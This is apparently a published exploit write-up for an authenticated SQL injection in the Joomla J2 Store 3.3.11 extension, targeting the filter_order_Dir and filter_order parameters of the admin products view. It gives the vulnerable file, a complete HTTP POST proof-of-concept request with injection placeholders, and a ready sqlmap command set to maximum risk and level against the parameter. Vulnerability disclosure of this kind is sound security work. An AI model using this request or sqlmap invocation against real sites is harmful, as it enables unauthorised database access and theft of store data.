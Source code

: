 Exploit Title: Joomla J2 Store 3.3.11 - 'filter_order_Dir'  SQL Injection (Authenticated)<br>
Date: 2020-04-17<br>
Exploit Author: Mehmet Kelepçe / Gais Cyber Security<br>
Vendor Homepage: https://www.j2store.org/<br>
Software Link: https://www.j2store.org/download.html<br>
Reference: https://www.j2store.org/download-j2store/j2store-v3-3-3-13.html<br>
Change Log: https://www.j2store.org/download-j2store/j2store-v3-3-3-13.html<br>
Version: 3.3.11<br>
Tested on: Kali Linux - Apache2<br>
-<br>
Detail:<br>
-<br>
File: administrator/components/com_j2store/models/products.php<br>
Vulnerable parameter: filter_order_Dir, filter_order<br>
<br>
PoC:<br>
Request:<br>
<br>
<br>
-<br>
POST /joomla/administrator/index.php HTTP/1.1<br>
Host: localhost<br>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br>
Accept-Language: en-US,en;q=0.5<br>
Accept-Encoding: gzip, deflate<br>
Referer: http://localhost/joomla/administrator/index.php?option=com_j2store&view=products<br>
Content-Type: application/x-www-form-urlencoded<br>
Content-Length: 312<br>
Connection: close<br>
Cookie: [COOKIE]<br>
Upgrade-Insecure-Requests: 1<br>
<br>
option=com_j2store&view=products&task=browse&boxchecked=0&filter_order=[SQLi]&filter_order_Dir=[SQLi]&2d42ab72d5c2716881de5d802d08ca7f=1&search=1&product_type=0&limit=20&since=&until=&productid_from=&productid_to=&pricefrom=&priceto=&sku=&manufacturer_id=&vendor_id=&taxprofile_id=&visible=&limitstart=0
<br>-
<br>
<br>
<br>
sqlmap -r sqli --dbs --risk=3 --level=5 --random-agent -p filter_order_Dir<br>
<br>


